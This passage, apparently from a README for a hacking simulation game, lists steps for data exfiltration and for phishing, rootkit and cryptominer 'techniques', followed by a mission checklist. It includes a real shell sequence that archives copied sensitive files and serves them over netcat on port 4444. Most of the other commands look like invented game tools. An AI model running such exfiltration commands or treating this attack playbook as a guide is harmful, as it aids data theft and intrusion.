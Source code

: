 ### Step 20: Data Exfiltration
```bash
# Copy sensitive files
cp /Documents/sensitive/* /tmp/exfil/
tar -czf stolen_data.tar.gz /tmp/exfil/
nc -l 4444 < stolen_data.tar.gz
```

## 🎮 Advanced Techniques

### Social Engineering Simulation
```bash
# Simulate phishing attack
phishing --generate-email --target john.doe@email.com
phishing --clone-site --url bankportal.com
```

### Advanced Persistence
```bash
# Rootkit installation
rootkit --install --target 192.168.1.110
rootkit --hide-process backdoor.exe
rootkit --hide-network-connection 4444
```

### Cryptocurrency Mining
```bash
# Install cryptominer on compromised systems
cryptominer --install --target 192.168.1.110
cryptominer --configure --pool mining.pool.com --wallet your_wallet
```

## 🏆 Mission Objectives Checklist

### ✅ Phase 1: Network Infiltration
- [ ] Complete initial network scan
- [ ] Identify all network devices
- [ ] Enumerate running services
- [ ] Document network topology

### ✅ Phase 2: Traffic Analysis
- [ ] Start packet capture
- [ ] Identify sensitive protocols
- [ ] Extract login credentials
- [ ] Capture session tokens

### ✅ Phase 3: Device Compromise
- [ ] Crack WiFi password
- [ ] Access router admin panel
- [ ] Compromise IoT devices
- [ ] Install device backdoors
